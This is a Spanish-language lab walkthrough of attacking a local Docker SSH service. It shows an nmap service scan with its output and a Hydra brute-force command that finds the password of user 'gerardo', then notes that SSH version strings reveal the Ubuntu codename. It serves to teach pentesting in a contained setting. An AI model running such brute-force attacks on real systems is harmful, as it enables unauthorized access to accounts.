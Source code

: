 ```bash
# Paso a paso de la máquina corrida con el comando anterior
docker ps

ssh gerardo@127.0.0.1 -p 2222
#introducimos clave iloveyou
nmap -p2222 -v -sV 127.0.0.1
# RESULTADOS
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-27 20:00 CST
NSE: Loaded 46 scripts for scanning.
Initiating Ping Scan at 20:00
Scanning 127.0.0.1 [2 ports]
Completed Ping Scan at 20:00, 0.00s elapsed (1 total hosts)
Initiating Connect Scan at 20:00
Scanning localhost (127.0.0.1) [1 port]
Discovered open port 2222/tcp on 127.0.0.1
Completed Connect Scan at 20:00, 0.00s elapsed (1 total ports)
Initiating Service scan at 20:00
Scanning 1 service on localhost (127.0.0.1)
Completed Service scan at 20:00, 0.18s elapsed (1 service on 1 host)
NSE: Script scanning 127.0.0.1.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
Initiating NSE at 20:00
Completed NSE at 20:00, 0.01s elapsed
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00013s latency).

#APLICAMOS FUERZA BRUTA CON HYDRA
hydra -l gerardo -P pass.txt ssh://127.0.0.1 -s 2222
#RESULTADOS
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-27 19:59:30
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 250 login tries (l:1/p:250), ~16 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[2222][ssh] host: 127.0.0.1   login: gerardo   password: iloveyou
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-27 20:00:02

```

Cabe destacar que a través de la versión de SSH, también podemos identificar el codename de la distribución que se está ejecutando en el sistema.

Por ejemplo, si la versión del servidor SSH es "OpenSSH 8.2p1 Ubuntu 4ubuntu0.5", podemos determinar que el sistema está ejecutando una distribución de Ubuntu. El número de versión "4buntu0.5" se refiere a la revisión específica del paquete de SSH en esa distribución de Ubuntu. A partir de esto, podemos identificar el **codename** de la distribución de Ubuntu, que en este caso sería "Focal" para Ubuntu 20.04.
